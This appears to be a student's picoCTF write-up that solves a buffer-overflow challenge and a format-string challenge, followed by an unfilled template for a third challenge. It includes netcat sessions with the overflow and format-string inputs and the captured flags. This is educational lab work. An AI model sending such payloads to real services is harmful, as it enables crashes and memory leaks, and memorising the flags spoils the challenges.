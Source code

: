 # 1. Buffer Overflow 0
> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.

Additional details will be available after launching your challenge instance.

## Solution:

- Looking at the code, I saw that the input was being copied to a string of max size 16. To break the program, I just had to input a string have more than 16 characters.
```
sid@sidsAsusZenbook:~/cryptoTP$ nc saturn.picoctf.net 62468
Input: hi
The program will exit now
ok
sid@sidsAsusZenbook:~/cryptoTP$ nc saturn.picoctf.net 62468
Input: dfjfdjfdnkjfnkdjndkjfndfkgjnfdkjnlsfdgkjndfjknckzljdflkjfdnkjnlkcjndafjlfddsflakjdbsfkjlbnflkdgjfkldchjkndflkdjgfkdfldsclkfkdnkcjdandjkfbdjkfnslrkfjhdfslihdfgjkcnd
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:
- Buffers

## Notes:

- After completing the challenge, I ran it a few times again to see that a string with 17 characters does not print the flag. I don't understand how many characters exactly are needed to overflow the buffer.

## Resources:

- Learnt about buffers [here.](https://ctf101.org/binary-exploitation/what-are-buffers/)

<br><br><br>
***
<br><br><br>


# 2. Format String 0

> Can you use your knowledge of format strings to make the customers happy? Download the binary here. Download the source here. Connect with the challenge instance here: nc mimas.picoctf.net 59043

## Solution:

- Probably the easiest challenge till now. For the first choice, %114d is a valid format specifier in C. After examining the code, I found out that I just needed the string length to exceed 64. `%114d` fill in any garbage value of 114 digits in length. For the second choice, the text talks about _breaking_ the shop. `Cla%sic_Che%s%steak` will break the program as there are no values passed to it in the printf statement.

```
sid@sidsAsusZenbook:~/cryptoTP$ nc mimas.picoctf.net 62362
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

```

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

## Concepts learnt:

- Format specifiers in C

## Notes:

- This could've been solved by a simply hit and trial as well.
- I don't understand why the binary for the code was provided.

## Resources:
- [This](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) was provided in the PDF and helped me to understand what the challenge could be about.

  
<br><br><br>
***
<br><br><br>


# 3. Clutter Over-flow

> Put in the challenge's description here

## Solution:

- Include as many steps as you can with your thought process
- You **must** include images such as screenshots wherever relevant.

```
put codes & terminal outputs here using triple backticks

you may also use ```python for python codes for example
```

## Flag:

```
picoCTF{}
```

## Concepts learnt:

- Include the new topics you've come across and explain them in brief
- 

## Notes:

- Include any alternate tangents you went on while solving the challenge, including mistakes & other solutions you found.
- 

## Resources:

- Include the resources you've referred to with links. [example hyperlink](https://google.com)
- 

